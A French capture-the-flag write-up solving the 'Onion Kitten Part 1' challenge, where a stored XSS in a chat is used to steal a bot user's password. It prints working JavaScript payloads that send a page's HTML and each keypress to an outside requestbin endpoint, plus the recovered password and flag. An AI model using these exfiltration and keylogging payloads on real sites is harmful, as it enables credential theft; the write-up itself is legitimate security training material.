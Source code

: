 # Onion Kitten Part 1
## Description :
Nous avons découvert un forum assez suspect dans les mails précedemment découverts. Trouvez un moyen de vous connecter et de récupérer les identifiants d'un utilisateur pour découvrir ce qu'il se trame.

## Information complémentaire : 
Un chat est disponible, il est potentiellement vulnérable. Il n'est pas utile d'usurper la session de l'utilisateur, nous avons besoin de son mot de passe !

## Source :
https://ia.challenge.operation-kernel.fr/

---

## Resolution : 
Indice mis à notre disposition :
- Il est indiqué que j'ai besoin de récupérer son mot de passe.

En allant sur le site, j'ai remarqué qu'il y'avait une partie "Chat". Je rentre mon username et j'essaie de voir s'il y a une XSS en envoyant dans le chat `<script>alert(1)</script>`, j'ai bien une pop-up qui apparaît avec écrit 1.

A partir d'ici, je sais que je peux exploiter une faille XSS pour réussir à avoir le mot de passe de l'utilisateur. Je suis un tuto qui est présent sur ce site : (XSS Password Stealing)[https://medium.com/dark-roast-security/password-stealing-from-https-login-page-and-csrf-bypass-with-reflected-xss-76f56ebc4516].

Après plusieurs essaie, je me rends compte que l'utilisateur n'envoie pas de requête submit ou c'est protégé. J'utilise le site (Requestbin)https://pipedream.com/requestbin] afin de vérifier si l'utilisateur est déjà connecté ou non, grâce à ce code qui me permet de recevoir ce que l'utilisateur voit en arrivant sur le site : 
```
var XHR = new XMLHttpRequest();
XHR.open('POST', 'https://eowk3k3zl6kfmdt.m.pipedream.net', true);
XHR.send(encodeURIComponent(document.body.innerHTML));
```
En décodant le body, je peux remarquer qu'il est n'est pas connecté et que son nom dans le chat est "bot".

Je me dis qu'il a sûrement une protection sur le submit donc je décide de faire un payload permettant de récupérer les touches tapés par le bot.

```
let i = 0;
function logKey(e){ 
    i++;
    fetch(`https://eowk3k3zl6kfmdt.m.pipedream.net/?key=${e.key}&type=${e.target.id}&number=${i}`);
}
document.addEventListener('keypress', logKey);
``` 
Ce script permet de recevoir la touche qui a été pressé grâce à l'option `e.key`, l'option `e.target.id` permet de savoir s'il a été saisi dans le login ou password et le number `i` me permet de savoir dans quel ordre je dois positionner ce que je reçois en lettre.

Une fois que toutes les requêtes reçu et traités j'obtiens ça :
- Login : Shopeors
- Mot de passe : X5S_4_3V3r!!

Voici le flag final : `HACK{X5S_4_3V3r!!}`
